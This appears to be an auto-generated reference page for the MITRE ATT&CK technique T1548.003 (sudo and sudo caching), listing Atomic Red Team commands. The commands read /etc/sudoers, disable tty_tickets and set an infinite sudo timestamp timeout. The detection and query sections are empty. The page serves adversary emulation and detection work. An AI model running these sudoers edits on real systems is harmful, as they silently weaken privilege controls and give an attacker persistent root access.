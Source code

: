 * Bypass: None
* Effective Permissions: ['root']
* Network: None
* Permissions: ['User']
* Platforms: ['Linux', 'macOS']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1548/003

## Potential Commands

```
sudo sh -c "echo Defaults "'!'"tty_tickets >> /etc/sudoers"
sudo visudo -c -f /etc/sudoers
sudo -l      
sudo cat /etc/sudoers
sudo vim /etc/sudoers
sudo sed -i 's/env_reset.*$/env_reset,timestamp_timeout=-1/' /etc/sudoers
sudo visudo -c -f /etc/sudoers
```

## Commands Dataset

```
[{'command': 'sudo -l      \nsudo cat /etc/sudoers\nsudo vim /etc/sudoers\n',
  'name': None,
  'source': 'atomics/T1548.003/T1548.003.yaml'},
 {'command': "sudo sed -i 's/env_reset.*$/env_reset,timestamp_timeout=-1/' "
             '/etc/sudoers\n'
             'sudo visudo -c -f /etc/sudoers\n',
  'name': None,
  'source': 'atomics/T1548.003/T1548.003.yaml'},
 {'command': 'sudo sh -c "echo Defaults "\'!\'"tty_tickets >> /etc/sudoers"\n'
             'sudo visudo -c -f /etc/sudoers',
  'name': None,
  'source': 'atomics/T1548.003/T1548.003.yaml'}]
```

## Potential Detections

```json

```

## Potential Queries

```json

```

## Raw Dataset
